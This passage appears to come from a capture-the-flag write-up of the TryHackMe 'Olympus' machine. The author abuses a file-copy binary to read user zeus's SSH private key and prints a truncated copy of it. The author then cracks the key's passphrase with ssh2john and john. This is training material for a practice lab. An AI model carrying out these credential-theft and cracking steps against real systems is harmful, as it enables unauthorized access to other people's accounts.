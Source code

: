 From [exploit-notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/), the **cputils** binary can be used to _copy the sensitive file to another one_. I will copy the **id_rsa** key in the `/home/zeus/.ssh` directory to another file to be able to read its content:

```
www-data@olympus:/var/www/html$ /usr/bin/cputils
/usr/bin/cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: /home/zeus/.ssh/id_rsa
/home/zeus/.ssh/id_rsa

Enter the Name of Target File: /tmp/id_rsa
/tmp/id_rsa

File copied successfully.
```

```
www-data@olympus:/$ cd /tmp
cd /tmp
www-data@olympus:/tmp$ ls -l id_rsa
ls -l id_rsa
-rw-rw-rw- 1 zeus www-data 2655 Oct  3 07:53 id_rsa
www-data@olympus:/tmp$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABALr+COV2
[...]
eRZjPBIy1rjIUiWe6LS1ToEyqfY=
-----END OPENSSH PRIVATE KEY-----
```

I copy the **id_rsa** to my local machine, set it with `chmod 600` and establish a **SSH** connection as user **zeus**:

```
┌──(kali㉿kali)-[~/TryHackMe/olympus]
└─$ ssh zeus@olympus.thm -i id_rsa
The authenticity of host 'olympus.thm (10.10.65.49)' can't be established.
ED25519 key fingerprint is SHA256:XbXc3bAs1IiavZWj9IgVFZORm5vh2hzeSuStvOcjhcI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'olympus.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

The **id_rsa** requires a passphrase, **ssh2john** and **john** could help me to generate the passphrase and crack this one:

```
┌──(kali㉿kali)-[~/TryHackMe/olympus]
└─$ ssh2john id_rsa > id_rsa_hash

┌──(kali㉿kali)-[~/TryHackMe/olympus]
└─$ john -w=~/Wordlists/rockyou.txt id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (id_rsa)
1g 0:00:00:45 DONE (2023-10-03 03:53) 0.02210g/s 33.24p/s 33.24c/s 33.24C/s maurice..bunny
```